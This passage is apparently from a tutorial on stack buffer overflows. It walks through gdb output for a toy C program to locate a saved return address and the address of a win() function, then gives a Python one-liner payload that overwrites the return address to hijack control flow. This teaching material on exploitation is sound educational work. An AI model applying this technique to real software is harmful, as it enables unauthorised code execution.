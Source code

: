 >    ```
>
>    > [!consider]
>    > Let's clarify the different EIP values mentioned in the `info frame` output:
>    >
>    > 1. `current_instruction_pointer = 0x565562d7 in hello (flow.c:12)`:
>    >    - This is the current value of the EIP register, pointing to the next instruction to be executed within the `hello()` function.
>    >
>    > 2. `return_address = 0x56556248`:
>    >    - This is the saved return address (saved EIP) that determines where the program should continue execution after the `hello()` function returns.
>    >    - We want to overwrite this value with the address of the `win()` function to redirect the program flow.
>    >
>    > 3. `return_address_location = 0xffffd32c`:
>    >    - This is the memory address on the stack where the `return_address` is stored within the current stack frame.
>    >    - By overwriting the memory at this location with the address of the `win()` function, we can change the saved return address and alter the program flow.
>    ><br>
>
> 3. Use `x/40x $esp` to examine the stack contents. The series of `0x41414141` represents the 16 "A"s in the `buf` buffer.
>
>    ```
>    (gdb) x/40x $esp
>    0xffffd310:  0x41414141  0x41414141  0x41414141  0x41414141
>    0xffffd320:  0xf7fe4200  0x00000000  0xffffd338  0x56556248
>    0xffffd330:  0xf7fb3000  0xf7fb3000  0x00000000  0xf7dfa811
>    0xffffd340:  0x00000001  0xffffd3d4  0xffffd3dc  0xffffd364
>    ```
>
>    Notice that the `return_address` (`0x56556248`) can be found here too, confirming that this is the value we want to override.
>
> 4. Determine the address of the `win()` function using `print win`. In this example, it's at `0x565561b9`.
>
>    ```
>    (gdb) print win
>    $2 = {void ()} 0x565561b9
>    ```
>
>    We will use this address (`0x565561b9`) to overwrite the `return_address` stored at `return_address_location` and redirect execution to the `win()` function.



> [!exercise]+ Crafting the Exploit Payload
>
> 1. To overwrite the return address and redirect execution to `win()`, the payload needs to:
>    - Fill the `buf` buffer with 16 bytes of data ("A"s).
>    - Pad an additional 12 bytes to reach the saved return address.
>    - Overwrite the saved return address (`0x56556248`) with the address of `win()` (`0x565561b9`).
>
> 2. The Python payload to generate this exploit string is:
>    ```python
>    print("A"*28 + "\xb9\x61\x55\x56")
>    ```
>    - `"A"*28` fills the buffer and padding (16 + 12 bytes).
>    - `"\xb9\x61\x55\x56"` is the little-endian representation of `0x565561b9` (address of `win()`).
>